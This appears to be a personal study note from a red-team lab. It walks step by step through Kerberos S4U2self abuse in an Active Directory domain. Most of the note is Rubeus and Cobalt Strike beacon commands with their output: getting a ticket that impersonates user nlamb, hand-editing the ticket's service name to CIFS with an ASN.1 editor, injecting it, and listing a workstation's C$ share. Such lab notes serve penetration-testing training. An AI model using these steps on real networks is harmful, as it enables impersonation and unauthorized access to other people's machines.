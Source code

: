 ```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[S4U2self Absue]]  
___

## Description:  

Start by getting a tgt through [[Printer Bug]]

S4U2self allows a service to obtain a TGS to itself on behalf of a user, and S4U2proxy allows the service to obtain a TGS on behalf of a user to a second service.

use `/ticket:rto.kirbi` to export ticket locally with a rubeus command.

We can gain access to a domain computer if we have its RC4, AES256 or TGT.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe s4u /user:WKSTN-2$ /msdsspn:cifs/wkstn-2.dev.cyberbotic.io /impersonateuser:nlamb /ticket:doIFLz[...snip...]MuSU8= /nowrap

[*] Action: S4U
[*] Building S4U2self request for: 'WKSTN-2$@DEV.CYBERBOTIC.IO'
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Sending S4U2self request to 10.10.17.71:88
[+] S4U2self success!
[*] Got a TGS for 'nlamb' to 'WKSTN-2$@DEV.CYBERBOTIC.IO'
[*] base64(ticket.kirbi):

      doIFdD [...snip...] MtMiQ=

[*] Impersonating user 'nlamb' to target SPN 'cifs/wkstn-2.dev.cyberbotic.io'
[*] Building S4U2proxy request for service: 'cifs/wkstn-2.dev.cyberbotic.io'
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Sending S4U2proxy request to domain controller 10.10.17.71:88

[X] KRB-ERROR (13) : KDC_ERR_BADOPTION

```

The S4U2proxy step will fail, which is fine.  Write the S4U2self TGS to a file.

```
PS C:\> [System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\wkstn-2-s4u.kirbi", [System.Convert]::FromBase64String("doIFdD [...snip...] MtMiQ="))
```

Use `Rubeus describe` to show information about the ticket.

```
C:\Tools\Rubeus\Rubeus\bin\Debug>Rubeus.exe describe /ticket:C:\Users\Administrator\Desktop\wkstn-2-s4u.kirbi

[*] Action: Describe Ticket

  ServiceName              :  WKSTN-2$
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  nlamb
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  2/28/2022 7:30:02 PM
  EndTime                  :  3/1/2022 5:19:32 AM
  RenewTill                :  1/1/0001 12:00:00 AM
  Flags                    :  name_canonicalize, pre_authent, forwarded, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  Vo7A9M7bwo7MvjKEkbmvaWcEn+RSeSU2RbsL42kT4p0=

```

The `ServiceName` of WKSTN-2$ is not valid for our use - we want it to be for CIFS.

To modify the ticket, open it with the ASN editor in `C:\Tools\Asn1Editor`.  Find the two instances where the **GENERAL STRING** "WKSTN-2$" appears.

Double-click them to open the **Node Content Editor** and replace these strings with "cifs".  We also need to add an additional string node with the FQDN of the machine.  Right-click on the parent **SEQUENCE** and select **New**.  Enter **1b** in the **Tag** field and click **OK**.  Double-click on the new node to edit the text.

Save the ticket and use `Rubeus describe` again.  Notice how the `ServiceName` has now changed.
```
C:\Tools\Rubeus\Rubeus\bin\Debug>Rubeus.exe describe /ticket:C:\Users\Administrator\Desktop\wkstn-2-s4u.kirbi

[*] Action: Describe Ticket

  ServiceName              :  cifs/wkstn-2.dev.cyberbotic.io
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  nlamb
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  2/28/2022 7:30:02 PM
  EndTime                  :  3/1/2022 5:19:32 AM
  RenewTill                :  1/1/0001 12:00:00 AM
  Flags                    :  name_canonicalize, pre_authent, forwarded, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  Vo7A9M7bwo7MvjKEkbmvaWcEn+RSeSU2RbsL42kT4p0=
```

To use the ticket, simply pass it into your session.
```
beacon> getuid
[*] You are DEV\bfarmer

beacon> make_token DEV\nlamb FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\wkstn-2-s4u.kirbi

beacon> ls \\wkstn-2.dev.cyberbotic.io\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 14:35:19   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     01/20/2022 15:43:43   Program Files
          dir     02/16/2022 12:46:57   Program Files (x86)
          dir     01/20/2022 16:46:38   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/19/2021 14:45:10   System Volume Information
          dir     05/05/2021 16:13:00   Users
          dir     05/06/2021 09:35:17   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 256mb    fil     02/28/2022 09:30:57   pagefile.sys

```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (12:45 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
